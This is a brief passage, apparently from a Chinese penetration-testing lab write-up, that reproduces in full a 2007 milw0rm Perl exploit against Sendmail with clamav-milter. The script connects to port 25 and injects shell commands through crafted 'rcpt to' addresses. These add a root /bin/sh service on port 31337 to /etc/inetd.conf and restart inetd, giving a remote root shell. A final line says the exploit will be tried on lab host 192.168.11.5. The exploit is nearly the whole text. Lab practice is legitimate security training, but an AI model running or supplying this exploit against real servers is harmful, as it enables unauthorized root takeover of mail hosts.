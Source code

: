 ```perl
### black-hole.pl
### Sendmail w/ clamav-milter Remote Root Exploit
### Copyright (c) 2007 Eliteboy
########################################################
use IO::Socket;
 
print "Sendmail w/ clamav-milter Remote Root Exploit\n";
print "Copyright (C) 2007 Eliteboy\n";
 
if ($#ARGV != 0) {print "Give me a host to connect.\n";exit;}
 
print "Attacking $ARGV[0]...\n";
 
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                              PeerPort => '25',
                              Proto    => 'tcp');
 
print $sock "ehlo you\r\n";
print $sock "mail from: <>\r\n";
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n";
print $sock "data\r\n.\r\nquit\r\n";
 
while (<$sock>) {
        print;
}
 
# milw0rm.com [2007-12-21]
```

在阅读上面exp之后，对目标机器`192.168.11.5`进行漏洞测试。

![](/img/game/TESTLAB/TESTLAB11/192_168_11_5_25_nc_banner.png)
